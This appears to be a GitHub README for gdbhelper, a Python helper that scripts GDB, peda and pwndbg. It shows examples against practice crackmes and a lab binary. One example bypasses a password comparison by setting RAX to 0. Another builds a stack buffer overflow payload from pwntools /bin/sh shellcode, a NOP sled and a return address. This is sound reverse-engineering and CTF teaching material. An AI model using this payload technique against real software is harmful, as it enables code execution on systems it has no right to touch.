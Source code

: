 # gdbhelper
gdbhelper is a lightweight helper class to instrument GDB using Python. It also has minimum support for [peda](https://github.com/longld/peda)
commands and experimental support for [pwndbg](https://github.com/zachriggle/pwndbg).

The reason why I didn't just develop a GDB script is that I was really too lazy to learn the API. Plus I wanted to have
a very simple tool that could "keep" my previous debugging configuration without having to re-set it all. If you're
looking for that too, that's where that tool comes in handy!

## Installation
You can either use it in place or install it with setuptools like this:
```bash
$ sudo python setup.py install
```
If you want to modify it while still using it system-wide, you can use this:
```bash
$ sudo python setup.py develop
```
As the script uses [pwntools](https://github.com/Gallopsled/pwntools)'s "process" to launch GDB in a subprocess with an
interactive shell, you should define aliases accordingly. Here are mine:
```bash
alias pwndbg='echo "source ~/security/pwndbg/gdbinit.py" > ~/.gdbinit && /usr/bin/gdb'
alias peda='echo "source ~/security/peda/peda.py" > ~/.gdbinit && /usr/bin/gdb'
alias gdb='echo "" > ~/.gdbinit && /usr/bin/gdb'
```
This way, when you'll use Peda it will be able to launch it from anywhere on your system.

## Basics
Let's begin by using "crackme1" (32b). After an incredibly hard analysis we saw that `0x8048545` seems interesting
(`strcmp`) so we'll launch our program and break there to see what's going on.
```python
# coding=utf-8


from gdbhelper import Gdb


debug = Gdb("./crackme1")  # (1)
debug.bp("*0x8048545")  # (2)
debug.r("blurp", prompt=True)  # (3)
value = debug.reg("esp")[1]  # (4)
print(debug.x(value, "s"))  # (5)

```
1. We load the binary in GDB (it's not being run yet)
2. We set our breakpoint
3. We run the binary with its argument and inform gdbhelper that we wait for the GDB prompt (because of the BP) before
returning a result
4. We ask for the value of `ESP` (which is the 1st argument of `strcmp`)
5. We print it's value and voilà!

Let's now try with the "crackme2" (64b). After a quick analysis, we've come to that script (which is a nonsense but
that for the sake of the example):
```python
# coding=utf-8


from gdbhelper import Pwndbg


debug = Pwndbg("./crackme2", until="plz! \n")  # (1)
debug.bp("*0x40073f")  # (2)
debug.r()
debug.e("blabla", prompt=True)  # (3)
debug.i()  # (4)
debug.c()  # (5)
r = debug.e("niark", skipbp=True)  # (6) (will also print the debug info)
if "Password" in r:  # (7)
    debug.e("plop", prompt=True)
    debug.ni()  # (8)
    debug.set("$rax", "0")
    debug.c(until="Flag is: ")  # (9)
    print(debug.recv(prompt=True))  # (10)

```
1. This crackme waits for an input on `STDIN` so we tell gdbhelper that, before returning from every `recv`, it needs to
find the string `"plz !\n"`
2. We set our BP and run the program
3. We send our first output, `"blabla"`, and wait for Pwndbg's prompt (due to BP), with the `execute` method (`e` is
simply a short name)
4. As we want to perform multiple operations at that BP, we ask gdbhelper to open an interactive shell (which we quit
either with `^C` or `^D`) with the `interactive` method (`i` is simply a short name)
5. We continue the execution of the program
6. We send our second input (from the script but maybe we did a lot during the interactive session) and tell gdbhelper
to not stop the execution when meeting a BP and to wait for the usual `until` string; This has for effect to stack the
output, meaning that the `r` variable contains all output/debug info since we sent our input
7. If we find the string `"Password"` in `r`, that means we're still not finished (damn! That's hard!)
8. After sending our third input and stopping at the `strcmp` again, we're pissed and just decide to screw up the
crackme by simple stepping and setting `RAX` to `0` to bypass the comparison
9. We now wait for a new string, `"Flag is: "`, to return instead of the usual `"plz! \n"`
10. We print the flag (I don't think that's the good one though)

Let's try to exploit a program now with "exploit1" (32b). No explanation on how to exploit a basic BoF, just how to do
it with gdbhelper almost automatically.
```python
# coding=utf-8


from pwn import *
from gdbhelper import Peda


debug = Peda("./exploit1")
pattern = debug.pattern_create(268)  # (1)
debug.bp("*0x8048488")
debug.r(pattern, prompt=True)
buff = p32(int(debug.reg("esp")[1], 16))
debug.dis(1)  # (2)
debug.c(prompt=True)
offset = debug.pattern_offset(debug.reg("eip")[0][1:].decode("hex")[::-1])  # (3)
bug = "A" * offset + "B"*4 + "C"*(268 - offset - 4)
shellcode = asm(shellcraft.sh())
nop = asm(shellcraft.i386.nop())*(offset - len(shellcode))
bug = shellcode + nop + buff + "C"*(268 - offset - 4)
debug.hb("*%s" % hex(u32(buff)))  # (4)
debug.r("'%s'" % bug, prompt=True)  # (5)
debug.i()  # (6)

```
1. We create a pattern using Peda's `pattern_create` command then we launch the program, get our buffer's address
2. We disable the breakpoint, it won't be needed anymore and continue the execution until a segmentation fault occurs
3. We check the offset of `EIP` using Peda's `pattern_offset` command and then construct our exploit string using Pwntools
4. We set a hardware BP on the address of our buffer to break on our shellcode
5. We relaunch the program with our shellcode and wait for the HB to trigger
6. We use the interactive console to step into the shellcode and watch everything's going well!

You can obviously use all `gdbhelper.Gdb` methods from `gdbhelper.Peda` or `gdbhelper.Pwndbg`. I invite you to discover
all available methods of those three classes with their arguments by yourself.